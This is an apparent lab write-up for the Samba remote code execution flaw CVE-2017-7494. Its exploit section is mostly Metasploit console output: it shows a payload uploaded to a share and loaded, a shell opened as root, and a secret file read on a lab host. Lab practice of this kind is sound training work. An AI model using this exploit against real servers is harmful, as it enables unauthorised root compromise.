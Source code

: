 #+title: Samba 3.5.0 - 4.6.4 Remote Code Execution (CVE-2017-7494)
#+author: gabriel

* intro
Samba is an open-source network file system protocol that provides services such as file and printer sharing.

This laboratory contains the CVE-2017-7494 vulnerability found in Samba versions since 3.5.0 and before 4.6.4, 4.5.10, and 4.4.14. This vulnerability allows attackers to perform remote code execution attacks, enabling the execution of arbitrary commands on the server and potentially taking control of the system.

* exploit
#+begin_src sh
msf exploit(linux/samba/is_known_pipename) > run
[*] 172.20.2.122:445 - Using location \\172.20.2.122\myshare\ for the path
[*] 172.20.2.122:445 - Retrieving the remote path of the share 'myshare'
[*] 172.20.2.122:445 - Share 'myshare' has server-side path '/home/share
[*] 172.20.2.122:445 - Uploaded payload to \\172.20.2.122\myshare\minYePdh.so
[*] 172.20.2.122:445 - Loading the payload from server-side path /home/share/minYePd
h.so using \\PIPE\/home/share/minYePdh.so...
[-] 172.20.2.122:445 -   >> Failed to load STATUS_OBJECT_NAME_NOT_FOUND
[*] 172.20.2.122:445 - Loading the payload from server-side path /home/share/minYePd
h.so using /home/share/minYePdh.so...
[+] 172.20.2.122:445 - Probe response indicates the interactive payload was loaded..
.
[*] Found shell.
[*] Command shell session 2 opened (10.8.58.60:36367 -> 172.20.2.122:445) at 2025-10
-06 21:56:39 -0300

ls

/bin/bash
clear
TERM environment variable not set.
whoami
root
cat /secret.txt
AvadaKedavra
#+end_src
